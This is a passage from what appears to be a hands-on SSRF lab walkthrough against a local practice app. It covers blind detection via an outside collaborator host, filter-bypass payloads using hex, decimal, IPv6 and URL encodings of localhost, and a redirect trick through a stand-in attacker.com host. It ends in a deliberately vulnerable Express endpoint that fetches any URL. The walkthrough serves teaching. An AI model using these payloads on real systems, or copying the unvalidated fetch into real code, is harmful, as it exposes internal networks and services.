 #### Step 8: Blind SSRF Detection

```bash
# Use external service to detect SSRF
curl "http://localhost:3000/api/fetch-url?url=http://burpcollaborator.net"
curl "http://localhost:3000/api/fetch-url?url=http://your-server.com/ssrf-test"

# Check your server logs for incoming request
# If you see a request from the target server's IP, SSRF exists!
```

#### Step 9: URL Encoding Bypass

```bash
# Try encoding to bypass basic filters
curl "http://localhost:3000/api/fetch-url?url=http://127.0.0.1"
curl "http://localhost:3000/api/fetch-url?url=http://localhost"
curl "http://localhost:3000/api/fetch-url?url=http://[::1]"  # IPv6 localhost
curl "http://localhost:3000/api/fetch-url?url=http://0x7f000001"  # Hex encoding
curl "http://localhost:3000/api/fetch-url?url=http://2130706433"  # Decimal encoding

# URL encoding
curl "http://localhost:3000/api/fetch-url?url=http://%6c%6f%63%61%6c%68%6f%73%74"
```

#### Step 10: SSRF with Redirect

```bash
# Create redirect on your server
# redirect.php: header('Location: http://192.168.1.1');

curl "http://localhost:3000/api/fetch-url?url=http://attacker.com/redirect.php"

# Server follows redirect to internal IP
```

### 💡 What Makes This Vulnerable?

**Vulnerable Code:**
```javascript
// backend/server.js - No URL validation!

const axios = require('axios');

app.get('/api/fetch-url', async (req, res) => {
  const { url } = req.query;
  
  if (!url) {
    return res.status(400).json({ 
      success: false, 
      message: 'URL parameter required' 
    });
  }
  
  try {
    // Fetches ANY URL without validation
    const response = await axios.get(url, {
      timeout: 5000,
      maxRedirects: 5  // Follows redirects!
    });
    
    // Returns response to attacker
    res.json({ 
      success: true, 
      data: response.data 
    });
```
